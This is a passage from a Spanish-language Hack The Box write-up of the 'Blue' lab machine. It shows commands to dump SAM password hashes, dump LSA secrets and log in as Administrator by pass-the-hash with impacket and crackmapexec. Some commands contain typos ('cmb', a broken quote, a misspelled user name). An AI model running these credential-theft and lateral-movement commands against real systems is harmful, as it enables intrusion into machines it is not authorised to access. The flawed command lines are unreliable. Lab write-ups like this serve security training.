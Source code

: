 ```bash
impacket-secretsdump -sam sam -system system LOCAL
```

![dump.png](/assets/images/htb-writeup-blue/dump.png)

Aquí tendríamos lo que nos interesa, que son los hashes de los usuarios

Con esto verificamos si el hash es correcto

```bash
crackmapexec cmb 10.10.10.40 -u 'Administrator. -H 'cdf51b162460b7d5bc898f493751a0cc'
```

y nos pondrá Pwn3d! y con esto ya tendríamos como una persistencia y hacer cosas.

Por ejemplo dumpear lsa a ver si logramos ver algo en texto claro 

```bash
crackmapexec cmb 10.10.10.40 -u 'Administrator. -H 'cdf51b162460b7d5bc898f493751a0cc' --lsa
```

No logramos ver nada interesante en texto claro entonces lo descartamos

Podemos operar para conectarnos a la maquina por ejemplo

```bash
impacket-psexec WORKGROUP/Adminnistrator@10.10.10.40 -hashes :cdf51b162460b7d5bc898f493751a0cc
```

Con esto lograríamos hacer pass the hash  y tener una pequeña persistencia porque ya tenemos el hash
